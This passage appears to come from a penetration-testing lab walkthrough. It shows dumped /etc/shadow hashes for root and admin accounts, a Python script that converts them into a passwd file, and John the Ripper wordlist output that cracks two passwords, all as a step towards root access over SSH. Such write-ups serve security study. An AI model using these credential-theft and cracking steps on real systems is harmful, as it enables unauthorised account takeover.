 ```
```

Looks like /etc/shadow entries for the root account and the system administrators! Now if I could crack one of their passwords, I'd be able to log in through SSH and su to root. After a bit of cutting and pasting, I ended up with a shadow file that looked like this:

```
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:13574:0:::::
aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:13570:0:99999:7:::
bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:13571:0:99999:7:::
ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:13574:0:99999:7:::
```

To crack this using john, I needed the corresponding passwd file which I didn't have. Fortunately it's easy enough to just create a dummy passwd file and insert the encrypted passwords into it. I wrote a short script to do it for me:

``` python
#!/usr/bin/env python
# shadow2pass: generate a dummy passwd file with 
# the encrypted passwords from a shadow file
 
import sys
 
start_uid = 500  # random UID
start_gid = 500  # random GID
for line in open(sys.argv[1]):
    a = line.split(":")
    print "%s:%s:%d:%d:,,,:/home/%s:/bin/bash" % \
        (a[0], a[1], start_uid, start_gid, a[0])
    start_uid += 1
```

I ran the script and passed it the shadow file and it gave me an unshadowed passwd file:

```
root@tantras# ~/bin/shadow2pass myshadow.txt > mypass.txt
root@tantras# cat mypass.txt 
root:$1$aQo/FOTu$rriwTq.pGmN3OhFe75yd30:500:500:,,,:/home/root:/bin/bash
aadams:$1$klZ09iws$fQDiqXfQXBErilgdRyogn.:501:500:,,,:/home/aadams:/bin/bash
bbanter:$1$1wY0b2Bt$Q6cLev2TG9eH9iIaTuFKy1:502:500:,,,:/home/bbanter:/bin/bash
ccoffee:$1$6yf/SuEu$EZ1TWxFMHE0pDXCCMQu70/:503:500:,,,:/home/ccoffee:/bin/bash
```

Now I had a proper file that I could run through john for cracking. I decided to use the same customized password list I had used before. After waiting several minutes, john finished running without cracking any passwords. Either my password list was too small, or the passwords were too complicated which meant I'd have to switch to a brute force attack which could take a very long time. I decided to try a larger password list to see if it would be more fruitful:

```
root@tantras# /pentest/passwords/jtr/john --wordlist=/pentest/passwords/wordlists/darkc0de.lst mypass.txt 
Loaded 4 password hashes with 4 different salts (FreeBSD MD5 [32/32])
Complexity       (root)
Zymurgy          (bbanter)
guesses: 2  time: 0:00:11:10 100.00% (ETA: Tue Jul 19 20:52:28 2011)  c/s: 5369  trying: �f 
```
